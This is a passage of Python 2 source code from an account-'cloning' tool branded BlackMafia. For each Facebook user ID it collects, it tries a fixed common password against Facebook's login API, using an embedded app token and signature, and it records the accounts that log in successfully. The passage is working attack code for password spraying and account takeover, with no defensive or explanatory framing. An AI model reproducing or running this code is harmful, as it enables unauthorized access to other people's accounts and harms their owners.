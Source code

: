 		menu()

	else:

		print "\x1b[1;91mFill in correctly"

		pilih_super()

	

	print "\033[1;91mTotal IDs\033[1;93m: \033[1;94m"+str(len(id))

	jalan('\033[1;92mPlease Wait\033[1;93m...')

	titik = ['.   ','..  ','... ']

	for o in titik:

		print("\r\033[1;91mCloning\033[1;93m"+o),;sys.stdout.flush();time.sleep(1)

	print "\n\033[1;94m«-----\x1b[1;93m♡To Stop Process Press CTRL+Z♡\033[1;94m----»"

	print "\033[1;95m♡──────────•◈•──────────♡\033[1;96mBlackMafia\033[1;95m♡──────────•◈•──────────♡"

	jalan(' \033[1;93m ........Cloning Start plzzz Wait.......... ')

	print "\033[1;95m♡──────────•◈•──────────♡\033[1;96mBlackMafia\033[1;95m♡──────────•◈•──────────♡"

	

			

	def main(arg):

		global cekpoint,oks

		user = arg

		try:

			os.mkdir('out')

		except OSError:

			pass #Dev:love_hacker

		try:

			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)

			b = json.loads(a.text)

			pass1 = ('786786')

			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

			q = json.load(data)

			if 'access_token' in q:

				print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;92m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass1

				oks.append(user+pass1)
